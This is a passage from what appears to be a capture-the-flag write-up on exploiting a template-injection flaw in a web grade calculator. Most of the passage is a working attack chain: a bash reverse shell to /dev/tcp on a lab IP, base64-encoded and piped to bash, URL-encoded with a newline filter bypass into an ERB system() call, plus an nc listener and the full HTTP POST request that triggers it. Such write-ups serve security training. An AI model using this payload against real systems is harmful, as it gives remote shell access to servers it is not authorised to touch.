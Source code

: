 Then immediately we'd get a callback on our webserver showing that this curl command was indeed working.

![URL callback](/assets/img/Perfection/Perfection_04.png)


So our next step is to create a reverse shell. For less issues with syntax i opted to use a base64 encoded reverse shell.

```bash
echo -n '/bin/bash -l > /dev/tcp/10.10.16.42/443 0<&1 2>&1' | base64

```

this command gave us the following B64 encoded string 

```bash
L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTYuNDIvNDQzIDA8JjEgMj4mMQ==
```

Then using this B64 string our payload will look like this:

```bash
echo L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTYuNDIvNDQzIDA8JjEgMj4mMQ== | base64 --decode | bash
```

Now we need to properly URL encode this payload as well

```
a%0A%3c%25%3d%20system%28%22echo%20L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTYuNDIvNDQzIDA8JjEgMj4mMQ%3d%3d%20|%20base64%20%2d%2ddecode%20|%20bash
```
Before sending the payload don't forget to turn on your listener.

```bash
nc -lvp 443
```

After sending the following request we would get a reverse shell connecting back to our machine.

```
POST /weighted-grade-calc HTTP/1.1
Host: 10.129.38.85
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 334
Origin: http://10.129.38.85
Connection: close
Referer: http://10.129.38.85/weighted-grade-calc
Upgrade-Insecure-Requests: 1


category1=a%0A%3c%25%3d%20system%28%22echo%20L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTYuNDIvNDQzIDA8JjEgMj4mMQ%3d%3d%20|%20base64%20%2d%2ddecode%20|%20bash
%22%29%25%3e&grade1=1&weight1=20&category2=test1&grade2=2&weight2=20&category3=test2&grade3=5&weight3=20&category4=test3&grade4=5&weight4=20&category5=test4&grade5=6&weight5=20
```
